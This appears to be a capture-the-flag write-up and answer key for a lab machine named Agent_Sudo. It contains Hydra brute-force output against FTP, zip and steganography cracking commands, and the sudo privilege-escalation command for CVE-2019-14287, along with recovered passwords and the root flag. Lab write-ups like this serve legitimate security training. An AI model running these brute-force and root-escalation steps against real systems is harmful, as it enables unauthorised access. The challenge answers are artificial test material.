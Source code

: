# Machine Name : Agent_Sudo
# Machine IP : 110.10.167.223

***TASK1***
```
Deploy
```

***TASK2***
```
1.How many open ports?
:3

2.How you redirect yourself to a secret page?
:user-agent

3.What is the agent name?
:chris

use command?
curl "{ip}" -H "user-agent:c" -L
```

***TASK3***<br>
1.FTP Password
```
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-06-02 14:31:44
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ftp://10.10.167.223:21/
[STATUS] 159.00 tries/min, 159 tries in 00:01h, 14344240 to do in 1503:36h, 16 active
[21][ftp] host: 10.10.167.223   login: chris   password: crystal
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-06-02 14:33:52

:crystal
```
2.Zip file password
```
: strings cutie.png
: binwalk -e cutie.png
: zip2john 8702.zip > hashes_for_john.txt
: john hashes_for_jhon.txt --worlist={password file path}
```
: alien

3.steg password
```
: 7z e 8702.zip
: cat  base64msg | base64 -d
:Area51
```

4.Who is the other agent ( in full name)?
```
: steghide extract -sf cute-alien.jpg
: james
```

5.ssh password
```
:hackerrules!
```
***TASK4: Capture the user flag***


***TASK5: Privilege Escalation***
```
#1 CVE number for the escalation : cve-2019-14287
# sudo -u#-1 /bin/bash

#2 What is the root flag : 53a02f55b57d4439e3341834d70c062

#3 (Bonus) Who is Agent R? : DesKel

```
